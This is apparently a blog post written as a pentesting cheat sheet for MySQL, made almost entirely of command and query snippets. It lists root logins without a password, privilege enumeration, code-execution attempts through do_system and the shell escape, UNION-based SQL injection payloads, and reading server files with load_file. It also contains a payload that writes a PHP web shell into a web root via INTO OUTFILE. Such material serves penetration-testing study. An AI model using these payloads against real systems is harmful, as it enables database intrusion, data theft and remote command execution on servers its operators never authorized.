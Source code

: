 ```yaml
---
title: MYSQL Pentesting Best Practices
categories: [pentesting protocols,mysql]
tags: [pentesting,mysql,best practicies]
comments: true
---
```

# MYSQL

> MYSQL default uses ports 3306
{: .prompt-tip }

# What is MYSQL?

MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

```bash
PORT     STATE SERVICE               VERSION
3306/tcp open  mysql
```

## MYSQL Connection

```bash
#LOCAL 
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)

#REMOTE
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

## Basic & interesting MySQL commands

```sql
show databases;
use <database>;
show tables;
describe <table_name>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Try to execute code
select do_system('id');
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
```